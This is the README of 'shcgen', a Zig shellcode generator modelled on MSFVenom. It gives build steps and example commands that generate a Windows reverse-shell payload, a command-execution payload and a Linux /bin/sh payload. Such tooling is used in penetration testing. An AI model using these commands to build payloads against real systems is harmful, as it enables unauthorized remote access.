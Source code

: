 # Shcgen

A shellcode generator written in Zig, inspired by MSFVenom.  

## Install

Download from [releases](/releases) page.

## Build

We can also use build & use it from source.  
It's required that you've already installed `zig` in your system.

```sh
git clone https://github.com/hideckies/shcgen
cd shcgen
zig build --release=small
./zig-out/bin/shcgen --help
```

## Prerequisites

Before using `shcgen`, you need to have the following installed:

- `nasm`

To install them, run the following:

```sh
# Debian/Ubuntu
sudo apt install nasm

# CentOS/Fedora
sudo yum install nasm

# macOS
brew install nasm
```

For Windows, download from [NASM official release page](https://www.nasm.us/pub/nasm/releasebuilds/?C=M;O=D).

## How To Use

### Generate Windows Payloads

```sh
# Example 1. Execute arbitrary command
shcgen -p windows/x64/exec --cmd calc -f raw -o /tmp/shellcode.bin

# Example 2. Reverse Shell
shcgen -p windows/x64/shell_reverse_tcp --lhost 127.0.0.1 --lport 4444 -f raw -o /tmp/shellcode.bin
```

### Generate Linux Payloads

```sh
# Example 1. Execute arbitrary command
shcgen -p linux/x64/exec --cmd /bin/sh -f hex
```

See [examples](/examples/) for more details.


